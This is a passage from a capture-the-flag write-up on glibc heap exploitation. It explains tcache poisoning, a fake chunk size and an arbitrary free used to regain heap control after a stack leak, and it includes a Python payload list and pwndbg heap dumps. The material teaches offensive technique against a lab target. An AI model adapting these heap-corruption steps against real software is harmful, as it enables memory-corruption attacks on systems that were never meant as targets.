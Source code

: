 We got the stack leak!

But... that still leaves us a problem... How do we actually get back to the heap? We would still trigger a segfault if we call shrink or any resize operations. Soo... what to do?

***

### Leveraging memcpy

The solution for this is actually really simple. We can just use arbitrary free provided by the second solution and set the storage pointer to 0 again before free! But, how to do that? Since after setting the storage pointer to point to libc, we no longer have any overlapping chunks. If we do the shrink method, all the pointers would point normally to heap, and no overlapping chunk pointers.

What if, we prepare another tcache poison beforehand to point to the same fake chunk address? We could do that, but I prefer to do it another way. Remember that when we initially gain control of the vector struct, we set the arbitrary free to 0x0? How about we just set it to a real address, a fake chunk address? That way, when the free happens it would also have another fake chunk pointer inside the tcache bin.

But how about the tcache size check? That's easy, just prepare a valid fake chunk size in the payload. After memcpy, the value will be written along with the arbitrary free value, and the freed pointer would point to the fake size chunk. It would then be inserted into the tcache bin.

Let's do that!

```python
payload = [
    0x0, 0x0,
    0x0, 0x71, # Our fake_chunk_size
    xor(heapleak+0x260), randleak, # --> poisoned tcache 
    0x0, 0x21,
    heapleak+0x280, 0x611, # --> Arbitrary free, points to fake_chunk_size+0x8 (tcache points to user field)
    libcleak, libcleak
]
```

Using this payload to set it up, now we can have another fake chunk in tcache bin.

```glsl
pwndbg> bins
tcachebins
0x20 [  2]: 0x564173c8a950 —▸ 0x564173c8a2f0 ◂— 0x0
0x30 [  1]: 0x564173c8a2c0 ◂— 0x0
0x40 [  2]: 0x564173c8a330 —▸ 0x564173c8a310 ◂— 0x0
0x70 [  1]: 0x564173c8a280 ◂— 0x564173c8a
```

As you can see, we have successfully inserted another fake chunk of address 0x564173c8a280 in the 0x70 tcache bin.

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................ #--> Current Fake Chunk
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q....... #--> Fake Chunk Size
0x564173c8a280  0x0000000000000000      0x8fe726c9dc7a332d      ........-3z..&..         <-- tcachebins[0x70][0/1] #--> Newly inserted fake chunk
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!....... #--> Vector Struct
0x564173c8a2a0  0x00007f03e4c49d20      0x0000000000000007       ...............
0x564173c8a2b0  0xfffffffffffffd70      0x0000000000000031      p.......1.......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000003      0x0000000000000021      ........!.......
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```
